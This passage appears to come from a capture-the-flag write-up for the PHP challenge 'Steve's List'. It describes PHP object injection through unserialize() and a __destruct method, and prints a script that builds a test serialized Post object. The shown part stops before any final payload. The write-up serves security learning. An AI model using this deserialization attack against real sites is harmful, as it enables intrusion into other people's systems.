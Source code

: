 ```php
  };

  $standard_filter_set = [new Filter("/\[i\](.*)\[\/i\]/i", "<i>\\1</i>"),
                          new Filter("/\[b\](.*)\[\/b\]/i", "<b>\\1</b>"),
                          new Filter("/\[img\](.*)\[\/img\]/i", "<img src='\\1'>"),
                          new Filter("/\[br\]/i", "<br>")];
?>
```
We can inflate a `Post` object using `unserialize()` and have it's `_destruct` method called. We wil know we are successful when we see a comment such as `<!--Post TITLE TEXT -->` in the source of Steve's List. I used this php code to generate the serialized version of the post object:
```php
<?php
 class Post {
    protected $title;
    protected $text;
    protected $filters;
    function __construct($title, $text, $filters) {
      $this->title = $title;
      $this->text = $text;
      $this->filters = $filters;
    }

    function get_title() {
      return htmlspecialchars($this->title);
    }

    function display_post() {
      $text = htmlspecialchars($this->text);
      foreach ($this->filters as $filter)
        $text = $filter->filter($text);
      return $text;
    }

    function __destruct() {
      // debugging stuff
      $s = "<!-- POST " . htmlspecialchars($this->title);
      $text = htmlspecialchars($this->text);
      foreach ($this->filters as $filter)
        $text = $filter->filter($text);
      $s = $s . ": " . $text;
      $s = $s . " -->";
      echo $s;
    }
  };
  class Filter {
    protected $pattern;
    protected $repl;
    function __construct($pattern, $repl) {
      $this->pattern = $pattern;
      $this->repl = $repl;
    }
    function filter($data) {
      return preg_replace($this->pattern, $this->repl, $data);
    }
  };
  $filters = array();
  $test = new Post("Test","text",$filters);
  echo serialize($test);
?>
```
Which generates:
